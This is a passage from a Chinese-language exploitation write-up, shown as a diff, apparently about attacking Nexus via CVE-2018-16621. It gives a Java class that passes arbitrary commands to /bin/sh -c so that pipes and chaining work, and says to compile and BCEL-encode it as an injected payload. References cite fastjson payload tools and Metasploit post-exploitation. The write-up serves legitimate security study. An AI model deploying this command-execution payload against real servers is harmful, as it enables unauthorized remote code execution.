+exec("echo", "1", "&&", "echo", "2")
+```
+
+这不是通过 Shell，而是直接执行了程序 `echo`，后面的 `"1"`, `"&&"`, `"echo"`, `"2"` 都当作参数：
+
+```bash
+执行的是：echo 1 && echo 2
+         ↑     ↑   ↑     ↑
+       程序   参数 参数  参数
+
+```
+
+此时的 `|`、`;`、`>` 等只是**普通文本参数**，根本不会有管道功能。
+
+解决方案：将原始`eval` 类中心的命令执行方式从：
+
+```java
+Runtime.getRuntime().exec(cmd)
+```
+
+改为：
+
+```java
+Runtime.getRuntime().exec(new String[]{"/bin/sh", "-c", cmd})
+```
+
+修改后的`eval.java`:
+
+```java
+import java.io.BufferedReader;
+import java.io.InputStreamReader;
+
+public class eval2 {
+
+    public String exec(String cmd) throws Exception {
+
+        Process p = Runtime.getRuntime().exec(             // ***
+                new String[]{"/bin/sh", "-c", cmd});       // ***
+
+        BufferedReader br = new BufferedReader(
+                new InputStreamReader(p.getInputStream()));
+        BufferedReader err = new BufferedReader(
+                new InputStreamReader(p.getErrorStream()));
+
+        StringBuilder sb = new StringBuilder();
+        String line;
+
+        while ((line = br.readLine()) != null)  sb.append(line).append('\n');
+        while ((line = err.readLine()) != null) sb.append(line).append('\n');
+
+        return sb.toString();
+    }
+}
+```
+
+之后使用javac将其编译，之后再BCEL编码使用即可。
+
+验证问题解决：
+
+<img src="picture/nexus测试连接符可用.png" alt="nexus测试连接符可用" style="zoom:25%;" />
+
+## 参考资料
+
+[Java中动态加载字节码的方法 (持续补充)_utility.encode true false-CSDN博客](https://blog.csdn.net/mole_exp/article/details/122768814)
+
+[f1tz/BCELCodeman: BCEL encode/decode manager for fastjson payloads](https://github.com/f1tz/BCELCodeman)
+
+[msf如何连接数据库 | PingCode智库](https://docs.pingcode.com/baike/2170202)
+
+[后渗透之MSF添加路由与主机探测_msf上线后路由开启无法扫描存活-CSDN博客](https://blog.csdn.net/qq_44159028/article/details/115802527)
+
+[CVE Record: CVE-2018-16621](https://www.cve.org/CVERecord?id=CVE-2018-16621)
